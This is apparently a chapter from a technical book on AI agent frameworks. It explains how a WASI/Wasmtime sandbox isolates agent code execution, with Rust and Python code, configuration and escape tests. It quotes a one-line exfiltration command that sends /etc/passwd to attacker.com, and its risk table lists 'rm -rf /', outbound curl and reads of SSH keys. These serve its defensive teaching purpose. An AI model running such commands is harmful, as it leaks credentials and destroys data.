


# Chapter 25: Secure Execution (WASI Sandbox)

> **WASI gives tool execution true sandbox isolation—default zero permissions, only grant necessary capabilities; but isolation isn't omnipotent, it needs to be combined with input validation and output auditing to form complete defense.**

---

> **Quick Path** (5 minutes to grasp the core)
>
> 1. WASI core: Capability model, default zero permissions, explicitly grant each capability
> 2. 100x faster than Docker: Microsecond startup, no full container needed
> 3. Four-layer isolation: Filesystem (preopened dirs), Network (default disabled), CPU (Fuel limits), Memory
> 4. Three lines of defense combined: Input validation -> Sandbox execution -> Output auditing
> 5. Escape detection: Monitor syscall patterns, terminate immediately on abnormal behavior
>
> **10-minute path**: 25.1-25.3 -> 25.5 -> Shannon Lab

---

User asks Agent to "analyze this code's performance". Agent decides to call the code execution tool.

The code has one line: `os.system('curl http://attacker.com/steal?data=' + open('/etc/passwd').read())`

Your server password was just stolen.

The first time I encountered this problem was in a "smart code assistant" project. A user submitted seemingly harmless Python code, saying they wanted to "test this algorithm's efficiency". After execution, a mysterious external network request appeared in the system logs. Tracing it down, I found the code had a base64-encoded malicious instruction hidden inside.

**From then on, I never trust any user-submitted code.**

The problem is: if you completely prohibit code execution, the Agent's capabilities are greatly diminished. Many tasks need code execution: data analysis, format conversion, API call verification...

The solution: **Sandboxing**. Let code execute in an isolated environment, even if there's malicious code, it can't escape.

---

## 25.1 Why Do We Need Sandboxing?

### Security Risks of Tool Execution

An Agent's core capability is calling tools, but tool execution brings huge security risks:

| Attack Type | Risk | Example |
|-------------|------|---------|
| Filesystem Escape | Read sensitive files | `/etc/passwd`, `~/.ssh/id_rsa` |
| Network Outbound | Data leakage | `curl http://attacker.com` |
| Resource Exhaustion | Denial of service | `while True: pass` |
| Process Injection | Privilege escalation | `os.system('sudo ...')` |
| Command Injection | Execute arbitrary commands | `import os; os.system('rm -rf /')` |

These attacks don't need advanced techniques. One line of code is enough.

### Problems with Traditional Isolation Approaches

| Approach | Advantages | Problems |
|----------|------------|----------|
| Docker | Mature, complete ecosystem | Slow startup (100ms+), high resource overhead |
| VM | Most complete isolation | Even heavier resource overhead, second-level startup |
| Process Sandbox | Lightweight | Depends on OS, incomplete isolation |
| chroot | Simple | Can be bypassed, only isolates filesystem |

If your Agent needs to execute tens of tool calls per second, Docker's 100ms startup time is unacceptable latency.

### WASI Solution

WASI (WebAssembly System Interface) is a lightweight sandbox approach. Core idea: **Capability model**—default no permissions, you need to explicitly grant each capability.



> Note (2026-01): Performance data based on specific test environment. Actual performance depends on hardware configuration, WASM runtime version, and workload characteristics. Please verify in your target environment.

WASI's core advantages:

| Comparison | Docker | WASI |
|------------|--------|------|
| Startup Time | 100ms+ | < 1ms |
| Memory Overhead | 50MB+ | < 10MB |
| Isolation Method | Namespaces | Capability model |
| Cross-platform | Needs daemon | Pure library, no dependencies |

---

## 25.2 WASI Architecture

In Shannon, the WASI sandbox runs in Agent Core (Rust layer), Python code requests execution via gRPC:



Core components:

| File | Language | Responsibility |
|------|----------|----------------|
| `wasi_sandbox.rs` | Rust | WASI sandbox core implementation |
| `python_wasi_executor.py` | Python | Python tool wrapper |
| `python-3.11.4.wasm` | WASM | Compiled Python interpreter |

---

## 25.3 WasiSandbox Implementation

### Structure Definition

Below is the core structure from Shannon's `rust/agent-core/src/wasi_sandbox.rs`:

```rust
#[derive(Clone)]
pub struct WasiSandbox {
    engine: Arc<Engine>,
    allowed_paths: Vec<PathBuf>,
    allow_env_access: bool,
    env_vars: HashMap<String, String>,
    memory_limit: usize,
    fuel_limit: u64,
    execution_timeout: Duration,
    table_elements_limit: usize,
    instances_limit: usize,
    tables_limit: usize,
    memories_limit: usize,
}
```

Key resource limits:

| Field | Default | Description |
|-------|---------|-------------|
| `memory_limit` | 256MB | Maximum memory usage |
| `fuel_limit` | 10^9 | CPU instruction quota |
| `execution_timeout` | 30s | Execution timeout |
| `table_elements_limit` | 10000 | WASM table elements limit |
| `instances_limit` | 10 | Instance limit |

### Initialization Configuration

```rust
impl WasiSandbox {
    pub fn with_config(app_config: &Config) -> Result<Self> {
        let mut wasm_config = wasmtime::Config::new();

        // WASI required features
        wasm_config.wasm_reference_types(true);
        wasm_config.wasm_bulk_memory(true);
        wasm_config.consume_fuel(true);  // Enable Fuel metering

        // Security settings
        wasm_config.epoch_interruption(true);     // Enable epoch interruption
        wasm_config.memory_guard_size(64 * 1024 * 1024); // 64MB guard page
        wasm_config.parallel_compilation(false);   // Reduce resource usage

        let engine = Arc::new(Engine::new(&wasm_config)?);

        Ok(Self {
            engine,
            allowed_paths: app_config.wasi.allowed_paths.iter()
                .map(PathBuf::from).collect(),
            allow_env_access: false,  // Default disable environment variables
            env_vars: HashMap::new(),
            memory_limit: app_config.wasi.memory_limit_bytes,
            fuel_limit: app_config.wasi.max_fuel,
            execution_timeout: app_config.wasi_timeout(),
            table_elements_limit: 10000,  // Python WASM needs larger table limits
            instances_limit: 10,
            tables_limit: 10,
            memories_limit: 4,
        })
    }
}
```

Key configuration points:

1. **consume_fuel(true)**: Enable instruction metering, prevent CPU abuse
2. **epoch_interruption(true)**: Enable timeout interruption, prevent code running infinitely
3. **memory_guard_size(64MB)**: Trigger page fault on memory overflow, not silent overflow

### Execution Flow

Shannon's WASM execution flow references the `execute_wasm_with_args` function in `wasi_sandbox.rs`:

```rust
pub async fn execute_wasm_with_args(
    &self,
    wasm_bytes: &[u8],
    input: &str,
    argv: Option<Vec<String>>,
) -> Result<String> {
    info!("Executing WASM with WASI isolation (argv: {:?})", argv);
    let start = Instant::now();

    // 1. Validate permissions
    self.validate_permissions()
        .context("Permission validation failed")?;

    // 2. Validate WASM module size and format
    if wasm_bytes.len() > 50 * 1024 * 1024 {
        return Err(anyhow!("WASM module too large: {} bytes", wasm_bytes.len()));
    }

    if wasm_bytes.len() < 4 || &wasm_bytes[0..4] != b"\0asm" {
        return Err(anyhow!("Invalid WASM module format"));
    }

    // 3. Pre-validate memory declarations
    {
        let tmp_module = Module::new(&self.engine, wasm_bytes)?;
        for export in tmp_module.exports() {
            if let ExternType::Memory(mem_ty) = export.ty() {
                if let Some(max_pages) = mem_ty.maximum() {
                    let max_bytes = (max_pages as usize) * (64 * 1024);
                    if max_bytes > self.memory_limit {
                        return Err(anyhow!(
                            "WASM module declares memory larger than allowed"));
                    }
                }
            }
        }
    }

    // 4. Start epoch ticker (timeout control)
    let engine_weak = Arc::downgrade(&self.engine);
    let (stop_tx, mut stop_rx) = tokio::sync::oneshot::channel::<()>();
    let ticker_handle = tokio::spawn(async move {
        let mut interval = tokio::time::interval(Duration::from_millis(100));
        loop {
            tokio::select! {
                _ = interval.tick() => {
                    if let Some(engine) = engine_weak.upgrade() {
                        engine.increment_epoch();
                    } else {
                        break;
                    }
                }
                _ = &mut stop_rx => break,
            }
        }
    });

    // 5. Execute WASM in blocking thread
    let result = tokio::task::spawn_blocking(move || {
        // ... execution logic ...
    }).await?;

    // 6. Stop epoch ticker
    let _ = stop_tx.send(());
    let _ = ticker_handle.await;

    result
}
```

Key designs in this flow:

1. **Pre-validate memory declarations**: Check memory requirements before instantiation, avoid discovering over-limit after startup
2. **epoch ticker**: Background thread periodically increments epoch for timeout control
3. **spawn_blocking**: WASM execution can block, must run in separate thread

---

## 25.4 WASI Capability Control

This is the core of WASI sandboxing—the capability model.

### Filesystem Isolation

Shannon's filesystem isolation design:

```rust
for allowed_path in &allowed_paths {
    // Canonicalize path to prevent symlink escape
    let canonical_path = match allowed_path.canonicalize() {
        Ok(path) => path,
        Err(e) => {
            warn!("WASI: Failed to canonicalize path {:?}: {}", allowed_path, e);
            continue;
        }
    };

    // Verify canonicalized path is still within allowed boundary
    if !canonical_path.starts_with(allowed_path)
        && !allowed_path.starts_with("/tmp") {
        warn!("WASI: Path {:?} resolves outside allowed directory", allowed_path);
        continue;
    }

    if canonical_path.exists() && canonical_path.is_dir() {
        wasi_builder.preopened_dir(
            canonical_path.clone(),
            canonical_path.to_string_lossy(),
            DirPerms::READ,   // Read-only directory
            FilePerms::READ,  // Read-only files
        )?;
    }
}
```

Security measures:

| Measure | Attack Defended |
|---------|-----------------|
| `canonicalize()` | Symlink escape (/tmp/safe -> /etc) |
| Boundary validation | Path traversal (../../../etc/passwd) |
| `DirPerms::READ` | Directory write (create malicious files) |
| `FilePerms::READ` | File modification (tamper config) |

### Network Isolation

WASI preview1 **has no network API**. Any socket operation returns `ENOSYS` (Function not implemented).

```python
# This code will fail in WASI sandbox
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('google.com', 80))  # Error: [Errno 38] Function not implemented
```

This is one of WASI's strongest security features: not "limiting" network, but "no network capability at all". Attackers can't bypass an API that doesn't exist.

### Environment Variable Isolation

```rust
// Default disabled, don't inherit host environment
if allow_env_access {
    for (key, value) in &env_vars {
        wasi_builder.env(key, value);
    }
}
// Note: Don't call inherit_env(), don't inherit host environment variables
```

Environment variables often contain sensitive information: API keys, database passwords, AWS credentials. Default disabled is the safe choice.

### Standard Input/Output

```rust
// Use memory pipes for isolation
let stdin_pipe = MemoryInputPipe::new(input.as_bytes().to_vec());
let stdout_pipe = MemoryOutputPipe::new(1024 * 1024); // 1MB buffer
let stderr_pipe = MemoryOutputPipe::new(1024 * 1024);

wasi_builder
    .stdin(stdin_pipe)
    .stdout(stdout_pipe)
    .stderr(stderr_pipe);
```

Input passed via stdin, output captured via stdout/stderr. Completely isolated, not connected to real terminal.

---

## 25.5 Resource Limits

Sandboxing isn't just about isolating access permissions, it also prevents resource abuse.

### Fuel Limits (CPU Quota)

```rust
store.set_fuel(fuel_limit)
    .context("Failed to set fuel limit")?;

// Each WASM instruction consumes 1 fuel
// Default 1 billion fuel equals roughly a few seconds execution time
```

How it works:

```
Code executes -> Each instruction consumes Fuel -> Fuel exhausted -> Trap terminates
```

This is a "prepaid" model. You give code a certain "running quota", stop when exhausted. Attackers can't exhaust system resources through infinite loops.

### Memory Limits

```rust
let store_limits = wasmtime::StoreLimitsBuilder::new()
    .memory_size(memory_limit)           // 256MB default
    .table_elements(table_elements_limit) // 10000 elements
    .instances(instances_limit)           // 10 instances
    .memories(memories_limit)             // 4 memories
    .tables(tables_limit)                 // 10 tables
    .trap_on_grow_failure(false)          // Return failure instead of trap
    .build();

let mut store = Store::new(&engine, HostCtx { wasi: wasi_ctx, limits: store_limits });
store.limiter(|host| &mut host.limits);
```

The design of `trap_on_grow_failure(false)` is interesting: return failure when out of memory, rather than immediate trap. This gives code a chance to handle out-of-memory situations, rather than suddenly crashing.

### Execution Timeout

```rust
// Set epoch deadline
let deadline_ticks = (execution_timeout.as_millis() / 100) as u64;
store.set_epoch_deadline(deadline_ticks);

// Epoch ticker runs every 100ms
tokio::spawn(async move {
    let mut interval = tokio::time::interval(Duration::from_millis(100));
    loop {
        tokio::select! {
            _ = interval.tick() => {
                if let Some(engine) = engine_weak.upgrade() {
                    engine.increment_epoch();  // Increment epoch every 100ms
                }
            }
            _ = &mut stop_rx => break,
        }
    }
});
```

How the timeout mechanism works:
- Background thread increments epoch every 100ms
- WASM execution checks if current epoch exceeds deadline
- 30 second timeout = 300 epochs

Why not just use `time.sleep()` to control timeout? Because WASM execution is blocking, external can't interrupt. Epoch mechanism is Wasmtime's cooperative interrupt approach.

---

## 25.6 Python Executor

Python is the most common tool scripting language. Shannon provides a dedicated Python WASM executor:

```python
class PythonWasiExecutorTool(Tool):
    """Production Python executor using WASI sandbox."""

    _interpreter_cache: Optional[bytes] = None
    _sessions: Dict[str, ExecutionSession] = {}

    def __init__(self):
        self.interpreter_path = os.getenv(
            "PYTHON_WASI_WASM_PATH",
            "/opt/wasm-interpreters/python-3.11.4.wasm"
        )
        self.agent_core_addr = os.getenv("AGENT_CORE_ADDR", "agent-core:50051")

    def _get_metadata(self) -> ToolMetadata:
        return ToolMetadata(
            name="python_executor",
            version="2.0.0",
            description="Execute Python code in secure WASI sandbox",
            category="code",
            sandboxed=True,
            dangerous=False,  # Safe due to WASI isolation
            timeout_seconds=30,
            memory_limit_mb=256,
        )
```

Note `dangerous=False`—because of WASI sandbox protection, this tool is marked as "safe".

### Execution Implementation

```python
async def _execute_impl(self, session_context: Optional[Dict] = None, **kwargs) -> ToolResult:
    code = kwargs.get("code", "")
    session_id = kwargs.get("session_id")
    timeout = min(kwargs.get("timeout_seconds", 30), 60)

    if not code:
        return ToolResult(success=False, error="No code provided")

    try:
        # Build gRPC request
        tool_params = {
            "tool": "code_executor",
            "wasm_path": self.interpreter_path,  # Only pass path, not 20MB content
            "stdin": code,  # Python code as stdin
            "argv": ["python", "-c", "import sys; exec(sys.stdin.read())"],
        }

        ctx = struct_pb2.Struct()
        ctx.update({"tool_parameters": tool_params})

        req = agent_pb2.ExecuteTaskRequest(
            query=f"Execute Python code (session: {session_id or 'none'})",
            context=ctx,
            available_tools=["code_executor"],
        )

        async with grpc.aio.insecure_channel(self.agent_core_addr) as channel:
            stub = agent_pb2_grpc.AgentServiceStub(channel)

            try:
                resp = await asyncio.wait_for(
                    stub.ExecuteTask(req), timeout=timeout
                )
            except asyncio.TimeoutError:
                return ToolResult(
                    success=False,
                    error=f"Execution timeout after {timeout} seconds",
                    metadata={"timeout": True},
                )

        # Handle response...

    except grpc.RpcError as e:
        return ToolResult(success=False, error=f"Communication error: {e.details()}")
```

Key design: `wasm_path` only passes the path, not the 20MB WASM content. Agent Core is responsible for loading the interpreter from local filesystem.

### Session Persistence

```python
@dataclass
class ExecutionSession:
    session_id: str
    variables: Dict[str, Any] = field(default_factory=dict)
    imports: List[str] = field(default_factory=list)
    last_accessed: float = field(default_factory=time.time)
    execution_count: int = 0

async def _get_or_create_session(self, session_id: Optional[str]) -> Optional[ExecutionSession]:
    if not session_id:
        return None

    async with self._session_lock:
        # Clean up expired sessions
        current_time = time.time()
        expired = [sid for sid, sess in self._sessions.items()
                   if current_time - sess.last_accessed > self._session_timeout]
        for sid in expired:
            del self._sessions[sid]

        # Get or create session
        if session_id not in self._sessions:
            if len(self._sessions) >= self._max_sessions:
                # LRU eviction
                oldest = min(self._sessions.items(), key=lambda x: x[1].last_accessed)
                del self._sessions[oldest[0]]

            self._sessions[session_id] = ExecutionSession(session_id=session_id)

        session = self._sessions[session_id]
        session.last_accessed = current_time
        session.execution_count += 1

        return session
```

Session functionality lets users maintain state across multiple executions: define variables, import modules, accumulate data.

---

## 25.7 Configuration and Deployment

### Configuration

```yaml
# config/shannon.yaml
wasi:
  enabled: true
  memory_limit_bytes: 268435456  # 256MB
  max_fuel: 1000000000           # 1 billion instructions
  execution_timeout: "30s"
  allowed_paths:
    - "/tmp/wasi-sandbox"
    - "/opt/wasm-data"

python_executor:
  rate_limit: 10          # Max 10 times per minute
  session_timeout: 3600   # Session expires in 1 hour
  max_sessions: 100       # Max 100 sessions
```

### Docker Configuration

```yaml
# docker-compose.yml
services:
  agent-core:
    image: shannon-agent-core:latest
    volumes:
      - ./wasm-interpreters:/opt/wasm-interpreters:ro
      - /tmp/wasi-sandbox:/tmp/wasi-sandbox
    environment:
      - WASI_MEMORY_LIMIT=268435456
      - WASI_MAX_FUEL=1000000000
      - WASI_TIMEOUT=30s
```

Note `:ro`—WASM interpreter directory is mounted read-only, preventing modification by malicious code.

### Getting Python WASM

```bash
# Download precompiled Python WASM
curl -L https://github.com/nicholascok/wasification/releases/download/v0.2.1/python-3.11.4.wasm \
  -o /opt/wasm-interpreters/python-3.11.4.wasm

# Verify
file /opt/wasm-interpreters/python-3.11.4.wasm
# Output: WebAssembly (wasm) binary module version 0x1
```

---

## 25.8 Security Testing

After deployment, you must test the sandbox's isolation effectiveness.

### Filesystem Escape Test

```python
code = """
import os
print(os.listdir('/etc'))  # Should fail
"""

# Expected output
# Error: [Errno 2] No such file or directory: '/etc'
# Because /etc wasn't preopened
```

### Network Access Test

```python
code = """
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('google.com', 80))  # Should fail
"""

# Expected output
# Error: [Errno 38] Function not implemented
# WASI doesn't support network operations
```

### Resource Exhaustion Test

```python
code = """
while True:
    pass
"""

# Expected: Terminates after 30 seconds timeout
# Output: Execution timeout after 30 seconds
```

### Fuel Exhaustion Test

```python
code = """
result = 0
for i in range(10**9):
    result += i
print(result)
"""

# Expected: Trap after Fuel exhausted
# Output: wasm trap: all fuel consumed
```

### Memory Exhaustion Test

```python
code = """
data = []
while True:
    data.append('x' * 1024 * 1024)  # Allocate 1MB each time
"""

# Expected: Memory limit triggers
# Output: wasm trap: cannot grow memory
```

---

## 25.9 Common Pitfalls

### Pitfall 1: WASM Module Too Large

```rust
// Wrong: Trying to send 20MB Python.wasm via gRPC
let wasm_bytes = std::fs::read("python.wasm")?;  // 20MB!
grpc_request.wasm_bytes = wasm_bytes;  // gRPC default 4MB limit!

// Correct: Use file path
tool_params["wasm_path"] = self.interpreter_path;  // Only pass path
```

### Pitfall 2: Forgetting Symlink Check

```rust
// Wrong: Directly using user-provided path
wasi_builder.preopened_dir(user_path, ...);

// Correct: Canonicalize and verify
let canonical = user_path.canonicalize()?;
if !canonical.starts_with(allowed_base) {
    return Err(anyhow!("Path escapes sandbox"));
}
wasi_builder.preopened_dir(canonical, ...);
```

This pitfall is subtle. Attacker creates symlink `/tmp/safe -> /etc`, then requests access to `/tmp/safe`. If you don't canonicalize check, you'll expose `/etc`.

### Pitfall 3: Blocking Async Runtime

```rust
// Wrong: Synchronously executing WASM in async function
async fn execute(&self, ...) {
    store.call_start(...);  // Blocking!
}

// Correct: Use spawn_blocking
async fn execute(&self, ...) {
    let result = tokio::task::spawn_blocking(move || {
        store.call_start(...)
    }).await?;
}
```

WASM execution is synchronous, can take seconds or even tens of seconds. If executed directly in async context, it blocks the entire runtime, affecting other requests.

### Pitfall 4: Not Handling Timeout

```rust
// Wrong: Relying on fuel but not setting epoch
store.set_fuel(1000000000);
// If code is waiting on I/O, fuel won't be consumed!

// Correct: Use both fuel and epoch
store.set_fuel(fuel_limit);
store.set_epoch_deadline(deadline_ticks);
// Start epoch ticker...
```

Fuel can only limit CPU computation. If code is doing I/O waiting, Fuel isn't consumed. Must also use Epoch timeout mechanism.

### Pitfall 5: Python WASM Table Limit Too Small

```rust
// Wrong: Using default table limit
table_elements_limit: 1000,

// Correct: Python WASM needs larger table limit
table_elements_limit: 10000,  // Python WASM needs 5413+ elements
```

Python WASM interpreter creates many function references at startup, needs larger table limits. Default value may cause startup failure.

---

## 25.10 Framework Comparison

How do different frameworks handle tool execution security?

| Framework | Sandbox Approach | Startup Time | Network Isolation | Resource Limits |
|-----------|-----------------|--------------|-------------------|-----------------|
| **Shannon + WASI** | Wasmtime | < 1ms | Complete isolation | Fuel + Epoch |
| **LangChain** | No built-in | N/A | None | None |
| **E2B** | Cloud VM | Seconds | Configurable | Cloud-side limits |
| **Replit** | Container | 100ms+ | Network policy | cgroups |
| **Docker** | Container | 100ms+ | Network namespace | cgroups |

WASI's advantages:
1. **Lightweight**: Millisecond startup, MB-level memory
2. **Security Model**: Capability model, default no permissions
3. **Embeddable**: Pure library, no external services needed

Disadvantages:
1. **Ecosystem**: Not all languages have mature WASM support
2. **Compatibility**: Some syscalls unavailable (like networking)
3. **Debugging**: Error messages may not be detailed enough

---

## Summary

1. **Zero Trust**: Default disable all capabilities, only explicitly grant what's needed
2. **Read-Only Mount**: Read-only mount necessary directories, prevent file writes
3. **Symlink Check**: Canonicalize paths to prevent escape attacks
4. **Dual Limits**: Use both Fuel (CPU) and Epoch (time) for resource control
5. **Async Isolation**: Use spawn_blocking to avoid blocking async runtime

---

## Shannon Lab (10-Minute Quickstart)

This section helps you map this chapter's concepts to Shannon source code in 10 minutes.

### Required Reading (1 file)

- `rust/agent-core/src/wasi_sandbox.rs`: See the `WasiSandbox` struct's resource limit fields, the 6 execution phases of `execute_wasm_with_args` function, and filesystem isolation in `preopened_dir` calls

### Optional Deep Dive (pick 2 based on interest)

- `python/llm-service/llm_service/tools/builtin/python_wasi_executor.py`: See the `_execute_impl` function, understand how Python code is sent via gRPC to Agent Core for execution
- Wasmtime Documentation (https://docs.wasmtime.dev/): Search "fuel" and "epoch", understand the underlying principles of resource limiting

---

## Exercises

### Exercise 1: Design Sandbox Test Cases

Write a set of test cases for the WASI sandbox covering:
- Filesystem escape (try to read /etc/passwd)
- Network access (try to connect to external network)
- Resource exhaustion (infinite loop)
- Memory abuse (large memory allocation)

Write expected output for each test case.

### Exercise 2: Source Code Understanding

Read Shannon's `rust/agent-core/src/wasi_sandbox.rs`:
1. Where is `canonicalize()` called? What security risk if you delete it?
2. Why execute WASM inside `spawn_blocking`? What happens if you execute directly in async function?

### Exercise 3 (Advanced): Design Multi-Language Sandbox

Scenario: Besides Python, you also want to support JavaScript and Ruby sandbox execution. Design a general sandbox execution framework:
- Abstract out common interface
- Handle initialization differences for different interpreters
- Consider how to manage memory overhead of multiple WASM interpreters

---

## Further Reading

- **WASI Standard**: https://wasi.dev/ - Understand WASI's design philosophy and capability model
- **Wasmtime Documentation**: https://docs.wasmtime.dev/ - High-performance WASM runtime in Rust
- **CPython WASM**: https://github.com/nicholascok/wasification - Precompiled Python WASM interpreter

---

## Next Chapter Preview

WASI sandbox solved the "code execution security" problem. But there's an even bigger problem: **multi-tenant isolation**.

When your Agent system serves multiple enterprise customers:
- Customer A's data can't be seen by Customer B
- Customer A's queries can't use Customer B's token budget
- Customer A's vector storage can't be searched by Customer B

This requires **full-chain isolation** from authentication layer to database layer.

Next chapter we'll discuss **Multi-Tenant Design**—how to implement complete tenant isolation to ensure enterprise customer data security.

Let's see...
